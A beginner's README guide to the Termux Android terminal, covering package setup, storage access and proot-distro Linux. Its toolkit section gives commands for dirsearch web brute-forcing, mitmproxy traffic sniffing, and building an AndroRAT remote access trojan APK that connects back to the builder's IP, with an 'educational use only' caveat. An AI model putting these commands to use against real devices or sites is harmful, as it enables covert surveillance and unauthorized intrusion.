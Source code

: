 # 📱🪲🐊📟🍁🌿🌾 About Termux – Complete Guide for Beginners & Power Users

> This repository is a complete, beginner-friendly guide to using **Termux** on Android. Learn how to set it up, install powerful tools, and use Linux like a pro – all from your phone, with or without root access.

---

## 📚 Table of Contents

1. [🍁 What is Termux?](#-what-is-termux)
   
2. [🔧 Initial Setup](#-initial-setup)
   
3. [🛠️ Essential Tools](#-essential-tools)
   
4. [📂 Storage Access](#-storage-access)
   
5. [💻 Linux in Termux (Proot-Distro)](#-linux-in-termux-proot-distro)
    
6. [🧰 Toolkits & Use Cases](#-toolkits-&-use-cases)
    
7. [⚠️ Troubleshooting & Tips](#-troubleshooting-&-tips)
    
8. [🧠 Contribute](#-contribute)

---

## 🍁 What is Termux?

**Termux** is an Android terminal emulator and Linux environment app that doesn’t require rooting. You can:

- Run Linux packages and shells
- Install programming environments (Python, Node, etc.)
- Run SSH servers, Git, Kali, Ubuntu, and more!

🔗 [Official Termux F-Droid Page](https://f-droid.org/packages/com.termux/)

---

## 🔧 Initial Setup

1. ✅ **Install Termux from F-Droid** *(Do NOT use Play Store version)*

➤ [https://f-droid.org/packages/com.termux/](https://f-droid.org/packages/com.termux/)

2. ✅ **Update,Upgrade and install basic Essentials**
```
termux-setup-storage
pkg update && pkg upgrade -y
pkg install wget -y
pkg install git -y
pkg install tur-repo -y
pkg install x11-repo -y
pkg install termux-x11-nightly -y
pkg install pulseaudio -y
pkg install curl -y
```

3. ✅ Fix Mirrors (if slow)
```
termux-change-repo
```

---

## 🛠️ Essential Tools

python	
```
pkg install python	
```

proot-distro (Install full Linux distributions)
```
pkg install proot-distro	
```

openssh	(SSH server/client)
```
pkg install openssh	
```

termux-api (Access Android functions)
```
pkg install termux-api	
```

---

## 📂 Storage Access

To access your internal/shared storage (DCIM, Downloads, etc.):
```
termux-setup-storage
```

A popup will request permission. Tap Allow.

Access shared storage via:
```
cd /storage/emulated/0/
```

---

## 💻 Linux in Termux (Proot-Distro)

Want full Linux inside Termux? Use proot-distro.

✅ Install Ubuntu / Kali / Fedora:
```
proot-distro install ubuntu
proot-distro login ubuntu
```

Now you’re inside Ubuntu. You can install tools with apt, set up xfce, mitmproxy, dirsearch, and more.


---

## 🧰 Toolkits & Use Cases

🔎 Dirsearch (Web Directory Brute Force)
```
git clone https://github.com/maurosoria/dirsearch.git
cd dirsearch
pip install -r requirements.txt
python3 dirsearch.py -u https://example.com -e php,html
```

---

🔍 mitmproxy (HTTP/HTTPS Sniffer)
```
pip install mitmproxy
mitmproxy --listen-port 8080
```

Use to inspect mobile traffic. For advanced use, install cert on second device, set proxy, and run HTTP server.


---

🐍 AndroRAT (Educational RAT)
```
git clone https://github.com/karma9874/AndroRAT.git
cd AndroRAT
python3 -m venv env
source env/bin/activate
pip install -r requirements.txt
python3 androRAT.py --build -i <your_ip> -p 8000 -o rat.apk
```

⚠️ For educational use only. Never use without consent.


---

⚠️ Troubleshooting & Tips

Issue	Fix Command

Network tools not working	
```
pkg install net-tools
```

Package errors or 403s	
```
termux-change-repo
```

Storage access denied	
```
termux-setup-storage
```
and restart Termux

Slow repo or package install
Use mirrors via 
```
termux-change-repo
```

Permission denied errors	
Ensure files have execution permission: 
chmod +x tool_name



---

## 🧠 Contribute

Have useful commands or scripts?
PRs and issues are welcome!


---

📢 Stay Updated

🔗 Termux Wiki

🔗 r/termux subreddit

🔗 Awesome-Termux List



---

> Made with 💻❤️ by @mikey-7x – Keep hacking, keep learning!



---



